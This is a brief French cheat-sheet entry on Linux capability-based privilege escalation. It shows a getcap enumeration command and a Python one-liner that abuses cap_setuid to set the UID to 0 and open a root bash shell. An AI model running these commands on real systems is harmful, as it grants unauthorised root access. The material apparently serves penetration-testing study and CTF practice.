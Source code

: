 ```sh
getcap -r / 2>/dev/null
```

Répertorier les fonctionnalités activées.

Noter que si le binaire possède les fonctionnalités linux `cap_setuid+ep` alors il peut etre exploiter

Exemple d'exploitation:

```sh
user@ubuntu:/tmp$ /usr/bin/python3.6 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

